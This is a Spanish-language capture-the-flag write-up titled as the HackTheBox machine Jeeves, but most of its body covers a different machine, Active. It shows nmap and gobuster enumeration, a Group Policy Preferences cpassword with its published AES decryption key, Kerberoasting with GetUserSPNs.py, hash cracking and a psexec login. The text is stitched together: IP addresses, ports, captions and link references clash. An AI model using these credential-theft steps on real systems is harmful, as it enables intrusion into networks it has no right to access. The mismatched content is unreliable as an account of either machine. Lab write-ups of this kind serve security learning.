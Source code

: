 ```yaml
---
title: "Jeeves HTB WriteUp"
layout: post
---
```

![Jeeves HTB](/assets/images/Jeeves-1.png)


<h2>Presentación</h2>
Jeeves es una máquina windows que corre un servicio de jenkin que es un servidor para automatizar tareas open sources, la primera vez que hice la máquina daba con 
un archivo keepass que contenia claves, pero esta vez no fue necesaria para escalar privilegios, abusamos del privilegio SeImpersonatePrivilege para lograr convertirnos en administrador, y jugamos con JuicyPotato para explotar el mismo, y para ver las flag de root cuenta con un ADS (Alternate Data Stream) que esta caracteristica de sistema de ficheros NFTS permite incluir metainformación en un fichero. [ADS-Alternate Data Stream][ADS-Alternate Data Stream]

<h2>Reconocimiento</h2>
En la fase de reconocimiento como siempre realizamos la identificacion de puertos y servicios en dos pasos, en la primera parte exportando el output en formato grep a un archivo llamado allports:
  
{% highlight bash %}
nmap -p- --open -v -n --min-rate 5000 10.10.10.63 -oG allports
{% endhighlight %}

Este es un escaneo de todos los puertos _-p-_, _-v_ verbosity para que nos represente el output por pantalla a medida que descubre puertos abiertos, _-n_ para que no aplique 
resolucion DNS y _-Pn_ para que asuma que todos los puertos estan up. 

```
[*] IP Address: 10.10.10.63
[*] Open ports: 80,135,445,5000
```

<h2>Puertos y Servicios</h2>
Con el fin de conocer un poco más de los servicios que se están ejecutando y lanzar una serie de script básico de reconocimiento para dichos puertos y servicios. 

{% highlight bash %}
nmap -p80,135,445,50000 -sCV -A -oN allservices 10.10.10.100
{% endhighlight %}

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-11 10:53 EDT
Nmap scan report for 10.10.10.63
Host is up (0.49s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008|10 (90%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_10 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (90%), Microsoft Windows 10 1511 - 1607 (85%), FreeBSD 6.2-RELEASE (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

```

Aqui podemos identificar dos servicios http en diferente puertos, puerto 80 y 50000 respectivamente, tecnologia de Microsoft IIS y Jetty 9.4.x; es bueno identificar 
estas versiones para luego buscar en exploit-DB o seachsploit vulnerabilidades asociadas a la misma, que quizas para nuestra version enumerada solo aparece un _Information Disclosure_
en un archivo *txt*.

Podemos observar el OS que detecta nmap _windows_server_2008 r2_ que podemos comprobar una vez ganemos accesos con el comando _system info_.

![Jeeves HTB](/assets/images/services.png)
<h2>Enum SMB puerto 445</h2>

Si intentamos conectarnos al servicio de SMB haciendo uso de un null session nos reporta _session setup failed: NT_STATUS_ACCESS_DENIED_; por lo que necesitariamos credenciales para listar y enumerar dicho servicio.

{% highlight bash %}
smbclient -L //10.10.10.63 -N 
{% endhighlight %}

<h2> Puertos 80 y 50000 </h2>

Bien el servidor web en la  http://10.10.10.63/ nos muestra un busquedor como la siguiente imagen y que sin importar que introducimos nos envia a _/error.html_,
que no es mas que una imagen de error ASP.NET !ay ASP.NET framework, por alli inicie viendo video de [Gavilanch2][Gavilanch2] en youtube!; ok seguimos..

![Jeeves HTB](/assets/images/Jeeves-2.png)

Mencionar que aplicar fuzzing a directorio tampoco arroja nada a diferencia del servicio en el puerto 50000.

![Jeeves HTB](/assets/images/Jeeves-3.png)
Ya mencionamos sobre Jetty 9.4.x; y el fuzzing arroja:

{% highlight bash %}
gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html
{% endhighlight %}

![Jeeves HTB](/assets/images/Jeeves-3.png)

Luego de navegar por el directorio policies en busca de algo interesante y observando cada archivo hasta dar con el archivo groups.xml, que según el siguiente article de [Hacking-Article][Hacking-Article] es creado como consecuencia de la configuración de Group Policy Preference, en la que permiten a un administrador crear policies e instalar aplicaciones a través de Group Policy. Y sobre la cual se guarda una contraseña encriptada en formato _cpassword_, y de la cual Microsoft publicó la llave, como podemos observar en el siguiente artículo, [Microsoft][Microsoft], trasladamos el contenido de dicha carpeta a nuestra carpeta content y efectivamente, como se puede observar, obtenemos las credenciales del usuario SVC_TGS:

{% highlight bash %} <?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups> {% endhighlight %}
![Uploading image.png…]()

Desencriptamos la contraseña con el uso de la herramienta gpp-decrypt:

![Ative HTB](/assets/images/ggp.png)

también podemos hacer uso de el siguiente one-liner ya que conocemos la llave como mencionamos anteriormente:
{% highlight bash %} 
echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000 
{% endhighlight %}

<h2>Validación de credenciales</h2>

Utilizamos la herramienta crackmapexec.py del poderoso _impacket_ para verificar la autenticidad de dicho usuario en el dominio **active.htb**, las cuales resultaron ser válida aunque no obtuvimos un (Pwned!) e intentamos verificar si podiamos loguearnos a traves de winrm, pero no fue así. 

![Ative HTB](/assets/images/gpp.png)

**Nota** desde aqui podemos visualizar la flag del user, haciendo uso de smbclient y navegando entre directorios :)

{% highlight bash %} smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingSt----8 {% endhighlight %}

Pero teniendo un usuario y contraseña, se nos hace posible realizar un Kerberoasting attack, el cual TCM Security explica detallamente, que nos _dumpea_ los krbasrep5 hashes de las cuentas que tienen _UserAccountControl setting “Do not require Kerberos preauthentication” habilitada_ pero que explico con más detalle en el siguiente artículo, sobre mis apuntes. 
Para esto utilizamos la herramienta _GetUserSPNs.py_, del poderoso impacket 🏅  

{% highlight bash %} GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS {% endhighlight %}

obtenemos el hash NTLMv2, enviamos a un archivo de texto y utilizamos John The Ripper, para obtener la credencial en texto plano.

![Ative HTB](/assets/images/hash.png)

y ya obteniendo credenciales de administrador como nos muestra la primera línea del output del GetUserSPNs.py, y contraseña nos logueamos en el sistema. 

![Ative HTB](/assets/images/psexec.png)

Ya siendo Nt Authority\System, a buscar las flags.
Que he decidido mostrar solo si existe algún paso más para llegar a ellas, no que tan solo sea navegar entre directorios como es este el caso, para poder verla. 

🖱️_by:_ *@DaVinciRoot*

[Gavilanch2]: [https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/](https://www.youtube.com/watch?v=YzC-FYg66xA&list=PL0kIvpOlieSNWR3YPSjh9P2p43SFnNBlB)
[ADS-Alternate Data Stream]: [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0](https://www.securityartwork.es/2015/02/23/alternate-data-stream-ads-flujo-de-datos-alternativos-en-ntfs/)
